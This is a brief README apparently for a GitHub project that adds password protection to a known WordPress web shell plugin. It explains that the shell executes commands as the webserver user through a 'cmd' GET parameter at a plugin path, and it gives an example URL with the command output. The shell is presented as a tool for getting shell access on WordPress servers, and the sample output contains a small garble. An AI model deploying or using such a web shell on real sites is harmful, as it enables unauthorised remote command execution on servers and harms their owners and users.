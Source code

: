 # wp-theshell
Password Protected Shell

Original Plugin : https://github.com/leonjza/wordpress-shell/blob/master/shell.php

This is just an updated version to add a password protection to prevent random's getting the shell access.
```
Execute Commands as the webserver you are serving wordpress with! Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=verd33(www-data) groups=33(www-data)</code>
```
